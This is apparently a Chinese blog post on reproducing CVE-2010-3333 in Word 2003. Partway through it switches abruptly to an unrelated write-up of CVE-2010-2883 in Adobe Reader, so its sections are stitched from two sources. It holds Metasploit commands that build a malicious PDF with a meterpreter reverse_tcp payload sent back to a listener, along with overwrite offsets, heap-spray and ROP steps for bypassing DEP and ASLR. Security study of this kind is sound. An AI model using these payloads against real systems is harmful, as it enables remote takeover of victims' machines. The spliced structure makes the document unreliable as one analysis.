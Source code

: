 ```yaml
---
layout:		post
title:		CVE-2010-3333分析 & 复现
author:		wooy0ung
tags:		cve
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP SP3  
>漏洞软件: Microsoft Office Word 2003 SP3  
>注意: 需要安装英文版, 安装后不是SP3的记得打上SP3的补丁包。
<!-- more -->


### 0x00 前期准备

安装Microsoft Office 2003 SP3 & 生成msf.rtf

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf > info
msf > set target 6
msf > run
```

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x00.png)

启动Word, WinDbg附加上去, 打开msf.rtf触发异常, 断在了内存copy指令rep movs(0x30ed442c)上

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x01.png)

发现该指令往READONLY内存区域写数据, 触发异常

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x02.png)

定位mso.dll模块的路径

```
# 以上用到的命令
> db esi
> db edi
> !address edi
> lmm mso v
```


### 0x01 栈回溯

重新载入, 在0x30ed442c下断, 定位崩溃函数的调用函数

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x03.png)
![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x03.png)

目标函数地址0x30f0b5c2








第一处脆弱点, strcat没对字符串长度进行检查, 导致栈溢出

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x01.png)

第二处脆弱点在0x0808B308, call [eax]导致可以构造任意call, 控制eip的指向


### 0x01 Dump TTF

生成恶意pdf

```
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > run
```

导入pdf, Search_For->TTF Fonts, 选中TTF数据右键->Save Decompressed Stream

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x02.png)

TableEntry结构

```
typedef struct_SING
{
        char    tag[4];
        ULONG   checkSum;
        ULONG   offset;
        ULONG   length;
} TableEntry;
```

Dump数据0x0EC处的SING字段标记SING表的表头

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x03.png)

偏移表头0x00C处表示SING表数据相对文件的偏移(0x000->0x11C)

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x04.png)

相对于SING表数据开始再偏移0x010(uniqueName)开始复制到栈上


### 0x02 调试

定位到strcat, 查看payload入栈的首地址

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x05.png)

此处数据与dump出来的一致, 确定payload在栈首地址0x0012E4D8

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x06.png)

注意这几处调用0x0803DEAF->0x08016C56->0x0801BB41->0x0808B308, 定位到call [eax]

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x07.png)

这时调用的是栈上0x0012E6D0存的一个地址, 0x0012E6D0-0x0012E4D8=0x1F8

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x08.png)

将偏移payload的0x1F8~0x1FC共4bytes修改成目的地址(此处为0x4A80CB38), 即可控制EIP跳转, 然后构造ROP

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x09.png)

偏移payload的0x008~0x00C修改成ROP指令地址, 0x00C~0x00F修改成0x0C0C0C0C

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0a.png)

通过HeapSpray将shellcode弹到栈上

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0b.png)

构造ROP, 依次调用CreateFileA->CreateFileMappingA->MapViewOfFile->memcpy将栈上的shellcode复制到有r-w-x权限的内存段


### 0x03 exploit

打开msf监听, F9直接运行

```
msf > use /exploit/mutil/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > exploit -j
```

后门已经反弹回来

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0c.png)

由于icucnv36.dll没有开启ASLR, 以上构造的ROP指令能绕过DEP、ASLR